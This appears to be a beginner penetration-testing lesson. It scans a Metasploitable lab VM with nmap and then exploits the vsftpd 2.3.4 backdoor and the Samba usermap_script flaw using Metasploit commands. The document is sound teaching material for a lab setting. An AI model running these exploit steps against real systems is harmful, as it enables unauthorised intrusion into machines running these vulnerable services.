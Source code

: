 # Access to operating systems

## High Level Goals

By the end of this lesson, you will be familiar with the following:
1. Introduction to gaining access
2. Server side.

## Introduction 

In this stage, we're going to be talking about gaining access to computer devices.

What do we mean by computer devices?
Any electronic device you see is a computer. A phone, a TV, a laptop, a web server, a website, a network, a router, all of these things are computers
Each one of them has an operating system, and they have programs installed on these operating systems.

## server side

First things, we want to run the kali and the Metasploitable.
We want to know the information about the target, we need to scan the target

	nmap 10.0.2.7

> In my case the IP adress of the Metasploitable is 10.0.2.7 you will have another IP.
 
 we will see these output
 
	┌──(tetra㉿kali)-[~]
	└─$ nmap -sV 10.0.2.7    
	Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-24 10:46 EEST
	Nmap scan report for 10.0.2.7
	Host is up (0.00013s latency).
	Not shown: 977 closed ports
	PORT     STATE SERVICE     VERSION
	21/tcp   open  ftp         vsftpd 2.3.4
	22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
	23/tcp   open  telnet      Linux telnetd
	25/tcp   open  smtp        Postfix smtpd
	53/tcp   open  domain      ISC BIND 9.4.2
	80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
	111/tcp  open  rpcbind     2 (RPC #100000)
	139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	512/tcp  open  exec        netkit-rsh rexecd
	513/tcp  open  login       OpenBSD or Solaris rlogind
	514/tcp  open  tcpwrapped
	1099/tcp open  java-rmi    GNU Classpath grmiregistry
	1524/tcp open  bindshell   Metasploitable root shell
	2049/tcp open  nfs         2-4 (RPC #100003)
	2121/tcp open  ftp         ProFTPD 1.3.1
	3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
	5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
	5900/tcp open  vnc         VNC (protocol 3.3)
	6000/tcp open  X11         (access denied)                                   
	6667/tcp open  irc         UnrealIRCd                                        
	8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)                      
	8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1               
	MAC Address: 08:00:27:10:69:2F (Oracle VirtualBox virtual NIC)               
	Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 11.86 seconds


know we see we have port `21/tcp` is open and running `ftp` service which have `vsftpd 2.3.4`  if we go in the Google and write vsftpd 2.3.4 exploit

![vsftpdexploit](/img/vsftpdexploit1.png)

### Metasploit 

What is Metasploit 

Metasploit is an exploit development and execution tool. it can also be used to carry out other penetration testing tasks such as port scans, service identification and post exploitation tasks. We have some command for Metasploit 

|command| what it does |
|--|--|
| `msfconsole` | runs the metasploit console |
| `help` | shows help |
| `show [something]` | something can be exploits, payloads, auxiliaries or options |
| `use[something]` | use a certain exploit, payload or auxiliary |
| `set[option] [value]` | confider[option] to have a value of [value]|
| `exploit` | runs the current task |

now go to the terminal:

1. write `msfconsole` 

![msfconsole1](/img/msfconsole1.png)

2. we want to add the command that we take it from this [website,](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/) which is `use exploit/unix/ftp/vsftpd_234_backdoor`

![msfconsole2](/img/msfconsole2.png)

3.  we need to show option to know what can we do `show options`

![showoption](/img/showoption.png)

4. we need to change the `RHOST` by using `set RHOST 10.0.2.7`

![setRHOST](/img/setRHOST.png)

5. know write `exploit` awesome we hacked the Metasploit .

Now let's try to another service, let's see `139/tcp` which have service `netbios-ssn` 

1. Go to the Google and write `Samba smbd 3.X exploit`
2. open `msfconsole`
3. use the `use use exploit/multi/samba/usermap_script`
4. show options and set the options
5. run the command `exploit`

## practice

1. Open your kali and metasploit machine.
2. Hack the metasploit machine. 
3. In the files in  metasploit machine,  there is 1 game what is the game name?
